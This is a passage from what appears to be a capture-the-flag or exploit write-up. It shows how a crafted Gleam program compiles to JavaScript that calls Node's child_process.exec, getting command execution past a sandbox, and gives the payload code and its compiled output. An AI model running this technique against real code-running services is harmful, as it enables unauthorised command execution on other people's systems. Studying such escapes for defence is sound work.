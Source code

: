 So now we have a valid `exec` attribute, but we want this attribute to be a function that takes in two parameters: a String and a Callback function to match the signature of javascript's `require('child_process').exec` function. We can achieve this by making `exec` be a function type.

```rs
pub type Mod {
  Mod(exec: fn(String, fn(String, String, String) -> String) -> String)
}
pub fn require(a: String) -> Mod {
  let a = <<0:16-native>>
  Mod(fn(b: String, c: fn(String, String, String) -> String) { "" })
}
fn prompt(a: String) -> String {
  let a = <<0:16-native>>
  "a"
}
pub fn main() {
  let mod = require("child_process").exec("ls", fn(a:String, b: String, c: String) -> String {"a"})
}
```

which compiles to

```js
import { CustomType as $CustomType, toBitArray } from "./gleam.mjs";

export class Mod extends $CustomType {
  constructor(exec) {
    super();
    this.exec = exec;
  }
}

export function main() {
  let mod = require("child_process").exec("ls", (a, b, c) => { return "a"; });
  return mod;
}
```

This passes `gleam`'s type checker and now we just need to construct the callback function which prints `stdout`. The `prompt` function from earlier prompts the user with a string passed in as the first argument. We can use this as a printing function.

The function `print_out` calls `prompt` with the stdout of the executed command.

Now our payload looks like this:
```rs
pub type Mod {
  Mod(exec: fn(String, fn(String, String, String) -> String) -> String)
}
pub fn require(a: String) -> Mod {
  let a = <<0:16-native>>
  Mod(fn(b: String, c: fn(String, String, String) -> String) { "" })
}
fn print_out(err: String, stdout: String, stderr: String) {
  prompt(stdout)
}
fn prompt(a: String) -> String {
  let a = <<0:16-native>>
  "a"
}
pub fn main() {
  let mod = require("child_process").exec("ls", print_out)
}
```
